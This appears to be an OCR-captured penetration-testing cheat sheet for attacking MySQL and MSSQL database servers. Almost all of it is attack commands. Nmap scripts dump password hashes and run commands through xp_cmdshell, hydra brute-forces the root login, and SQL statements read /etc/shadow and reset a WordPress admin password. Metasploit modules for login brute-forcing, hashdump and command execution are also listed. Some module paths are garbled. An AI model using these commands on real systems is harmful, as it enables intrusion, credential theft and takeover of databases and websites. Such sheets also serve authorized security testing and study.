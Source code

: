 # **SQL**

--------------------------------------------------------------------

### Nmap Scripts

```
> MYSQL

nmap 0.0.0.0 -SV -p 3306 —script=mysql-empty-password

nmap 0.0.0.0 -SV -p 3306 —script=mysql-info

nmap 0.0.0.0 -SV -p 3306 —script=mysql-users —script-args=”mysqluser=’root’, mysqlpass=’’”

nmap 0.0.0.0 -SV -p 3306 —script=mysql-databases—script-args=”mysqluser=’root’, mysqlpass=’’”

nmap 0.0.0.0 -SV -p 3306 —script=mysql-variables —script-args=”mysqluser=’root’, mysqlpass=’’”

nmap 0.0.0.0 -SV -p 3306 —script=mysql-audit—script-args=”mysql-audit.username=’root’, mysql-audit.password=’’”,mysql-audit.filename=’/usr/share/nmap/nselib/data/mysql-cis.audit’”

nmap 0.0.0.0 -SV -p 3306 —script=mysql-dump-hashes —script-args=”username=’root’, password=’’”

nmap 0.0.0.0 -SV -p 3306 —script=mysql-query —script-args=”query=’select count(*) from books.authors;’,username=’root’, password=’’”


> MSSQL:

nmap 0.0.0.0 -p 1433 —script ms-sql-info

nmap 0.0.0.0 -p 1433 —script ms-sql-info —script-args mssql-instance-port=1433

nmap 0.0.0.0 -p 1433 —script ms-sql-brute —script-args userdb=/root/Desktop/wordlist/common_users.txt,passdb=/root/Desktop/wordlist/100-common-passwords.txt

nmap 0.0.0.0 -p 1433 —script ms-sql-empty-password

nmap 0.0.0.0 -p 1433 —script ms-sql-query —script-args mssql.username=admin,mssql.password=anamaria,ms-sql-query.query=”SELECT * FROM master..syslogins” -oN output.txt”

nmap 0.0.0.0 -p 1433 —script ms-sql-dump-hashes —script-args mssql.username=admin,mssql.password=anamaria

nmap 0.0.0.0 -p 1433 —script ms-sql-xp-cmdshell —script-args mssql.username=admin,mssql.password=anamaria,ms-sql-xp-cmdshell.cmd=”ipconfig”
```

--------------------------------------------------------------------

### BRUTEFORCE

```
$ hydra -l root -P /usr/share/metasploit-framework/data/wordlists/unix_passwords.txt 0.0.0.0 mysql
```

--------------------------------------------------------------------

### Trying login

```
$ mysql -h 0.0.0.0 -u root
```

--------------------------------------------------------------------

### Useful SQL Commands

```
$ show databases;

$ use books;

$ select * from authors;

$ select load_file(”/etc/shadow”)

$ UPDATE wp_users SET user_pass = MD5('password123') WHERE user_login = 'admin';

http://<TARGET-IP>/8585/wordpress/wp-admin
```

--------------------------------------------------------------------

### Metasploit Modules

```
> MYSQL:

- use /auxiliary/scanner/mysql/mysql_login
> set pass_file /usr/share/metasploit_framework/data/wordlists/unix_passwords.txt
> set stop_on_succes true

- auxiliary/admin/mysql/mysql_enum

- auxiliary/admin/mysql/mysql_sql

- auxiliary/scanner/mysql/mysql_file_enum

- auxiliary/scanner/mysql/mysql_hashdump

- auxiliary/scanner/mysql/mysql_login

- auxiliary/scanner/mysql/mysql_schemadump

- auxiliary/scanner/mysql/mysql_version

- auxiliary/scanner/mysql/mysql_writable_dirs


> MSSQL:

- use auxiliary/scanner/mssql/mssql_login
> set user_file /root/Desktop/wordlist/common_users.txt
> set pass_file…

- use auxiliary/admin/ssql/ssql_enum

- use auxiliary/admin/ssql/ssql_enum_ssql_logins

- use auxiliary/admin/ssql/ssql_exec

- use auxiliary/admin/ssql/ssql_enum_domain_accounts
```

--------------------------------------------------------------------